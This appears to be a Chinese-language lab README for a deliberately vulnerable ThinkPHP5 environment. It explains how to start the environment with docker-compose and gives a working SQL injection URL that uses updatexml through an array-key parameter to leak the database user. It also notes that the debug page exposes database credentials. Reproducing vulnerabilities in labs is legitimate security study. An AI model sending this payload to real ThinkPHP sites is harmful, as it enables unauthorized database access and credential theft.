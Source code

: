 # ThinkPHP5 SQL注入漏洞 && 敏感信息泄露

编译及运行环境：

```
docker-compose build
docker-compose up -d
```

启动后，访问`http://your-ip/index.php?ids[]=1&ids[]=2`，即可看到用户名被显示了出来，说明环境运行成功。

## 漏洞原理

漏洞原理说明：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xianzhi.aliyun.com/forum/read/1813.html

不再赘述。

## 漏洞利用

访问`http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，信息成功被爆出：

![](01.png)

当然，这是一个比较鸡肋的SQL注入漏洞。但通过DEBUG页面，我们找到了数据库的账号、密码：

![](02.png)

这又属于一个敏感信息泄露漏洞。